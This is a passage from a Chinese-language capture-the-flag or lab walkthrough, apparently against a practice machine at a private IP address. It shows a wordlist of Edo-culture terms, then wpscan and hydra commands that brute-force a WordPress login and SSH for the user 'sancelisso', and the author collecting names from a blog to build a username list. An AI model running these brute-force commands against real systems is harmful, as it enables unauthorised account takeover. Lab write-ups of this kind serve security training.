 ```apl
Eghaevbo
EwuareII
Egharevba
IgueFestival
Isienmwenro
Ugie-Olokun
Olokunworship
Ukhurhe
OsunRiver
Uwangue
miammiam45
Ewaise
Iyekowa
Idia
Olokunmask
Emotan
OviaRiver
Olokunceremony
Akenzua
Edoculture
```

下载下来进行爆破：

```bash
wpscan --url 10.160.7.154/wordpress -P secrets.txt -U sancelisso
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737553.png" alt="image-20240319163456737" style="zoom:50%;" />

没爆破出来，难道是ssh？

```bash
hydra -l sancelisso -P secrets.txt ssh://10.160.7.154
```

![image-20240319163728519](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737554.png)

难道是`secrets.txt`是用户？密码也是这个？试试？在后台爆破一下，我们再重新回去看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737555.png" alt="image-20240319164506643" style="zoom:50%;" />

有博客，打开看一下：（之前也看了，但是没看出啥，忘了看源码了，不知道藏没藏东西）

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737556.png" alt="image-20240319164652011" style="zoom:50%;" />

发现之前找到的用户名，继续瞅瞅其他的：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737557.png" alt="image-20240319164723958" style="zoom: 33%;" />

发现有几个人名和关键词，死马当活马医了，也把他搞下来放到一个字典里：

```bash
echo "VivifyTech\nSarah\nMark\nEmily\nJake\nvivifytech\nsarah\nmark\nEmily\njack" > us5r
```
